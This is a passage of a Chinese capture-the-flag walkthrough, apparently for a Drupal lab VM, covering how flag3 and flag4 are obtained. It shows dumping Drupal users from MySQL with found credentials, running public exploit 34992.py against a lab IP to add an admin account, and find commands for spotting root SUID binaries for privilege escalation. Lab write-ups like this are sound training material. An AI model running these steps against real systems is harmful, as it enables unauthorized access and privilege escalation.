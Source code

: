 ![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JUmicyPea7QkS9RrYbGicTjbAicZsCu5HoQHCBibIs0XAgQQicS1XwjJIOh1LtgtQj7VgnTw0c60Wmv3yw/640?wx_fmt=png)

**获取 flag3**

根据 flag2 中提示，我们使用数据库信息去进入数据库中拿后台的账号密码。  
使用 mysql -udbuser -p 输入密码 R0ck3t 登录 mysql

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JUmicyPea7QkS9RrYbGicTjbAufsAg7TlSbc55HaIibpsiaVpsYRNSVqFNicbTicsicAPiciaibQNMs1RIRjp8Q/640?wx_fmt=png)

```
mysql>use drupaldb;                # 使用drupaldb数据库
mysql>show tables;                 # 查看数据库内的表
```

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JUmicyPea7QkS9RrYbGicTjbA2ZWY71XZZPhCnaDUKib6SGFI3PRu7nlyvQSZ9BYjQ7tRKpWfyHKlY6g/640?wx_fmt=png)

可以看到一个 user 的表

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JUmicyPea7QkS9RrYbGicTjbAaQC6E0FC3oe95ntdo2cwqU4Irx666Tz0H3eNNMfvpNDiaBWeHv6Lc7w/640?wx_fmt=png)

select 语句查询，找到可用于登录的用户 admin 和密码密文。select * from users;

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JUmicyPea7QkS9RrYbGicTjbAQSSRmgXshUwMKAMV9c2XshGQ1OKZQLGrC8YwxwPG7ms4dDl5DibjZcQ/640?wx_fmt=png)

发现破解不了，我们去 exploitdb 中看看有没有攻击 admin 的脚本。

```
searchsploit drupal
```

在 exploitdb 中有一个针对 Drupal 7 版本的攻击脚本，可以增加一个 admin 权限的用户。

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JUmicyPea7QkS9RrYbGicTjbAdaS30wzKw0UFVK7yFuwO43y1V1d07uTXLzXvUyFtibjwaQPjv99QQ1A/640?wx_fmt=png)

```
python exploits/php/webapps/34992.py -t 192.168.236.136 -u admin1 -p admin1 利用一下
```

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JUmicyPea7QkS9RrYbGicTjbAia1NzCDFCWv0ySVaIQ5YNGowIribI88Kafiaic6Cvb6lwd4pFu16UHq0mQ/640?wx_fmt=png)

使用 admin1 admin1 登录后台 在 Content 中拿到 flag3

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JUmicyPea7QkS9RrYbGicTjbAZDfswmoGZPTJToWoaYkfd6RYts5tp8AHIPeIOvnChiawwEDzcravNmw/640?wx_fmt=png)

**获取 flag4**

根据 flag3 的信息我们知道

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JUmicyPea7QkS9RrYbGicTjbAgpRn2RKJ1CyMRXU8cAxDBcDibeWcBtsCpcb9PiaFKlFHpCXss6w3SrTQ/640?wx_fmt=png)

应该要查看 shadow 文件，并使用 SUID 命令提权。  
使用以下命令可以发现系统上运行的所有 SUID 可执行文件。具体来说，命令将尝试查找具有 root 权限的 SUID 的文件。

```
find / -user root -perm -4000 -print 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \;
```
